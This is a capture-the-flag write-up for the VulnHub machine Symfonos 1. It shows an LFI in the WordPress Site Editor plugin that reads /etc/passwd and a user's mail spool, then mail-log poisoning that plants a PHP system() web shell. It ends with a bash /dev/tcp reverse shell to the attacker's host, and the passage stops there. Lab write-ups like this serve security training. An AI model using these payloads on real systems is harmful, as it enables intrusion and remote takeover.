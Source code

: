 
The wordpress page has directory listing on at URL `http://10.10.10.11/h3l105/wp-content/uploads/`

We can find a directory `siteeditor` which seems to belong to a plugin called site-editor. It is vulnerable to LFI:
`http://10.10.10.11/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

Which shows us there is a `helios` user on the system.

### LFI to RCE with mail log poisoning

First we note we can read the mail of user helios:

`http://10.10.10.11/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios`

As we can access the mail of user helios, we can send an email to him containing php code:

```
kali@kali:~/ctf/boxes/vulnhub/symfonos_1$ telnet 10.10.10.11 25
Trying 10.10.10.11...
Connected to 10.10.10.11.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
helo ok
250 symfonos.localdomain
mail from: bla@bla.com
250 2.1.0 Ok
rcpt to: helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
bahlsdf
..
.
250 2.0.0 Ok: queued as 0F69740698
quit
221 2.0.0 Bye
Connection closed by foreign host.

```
We can verify we have an RCE as user `helios`:

`http://10.10.10.11/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=id`


Now we want a persistent connection, so we try to pop a reverse shell:

```
kali@kali:~/ctf/boxes/vulnhub/symfonos_1$ telnet 10.10.10.11 25
Trying 10.10.10.11...
Connected to 10.10.10.11.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
helo ok
250 symfonos.localdomain
mail from: test@test.comm
250 2.1.0 Ok
rcpt to: helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system("bash -i >& /dev/tcp/10.10.10.4/4242 0>&1"); ?>                                                 
bahlsdfffff
.
```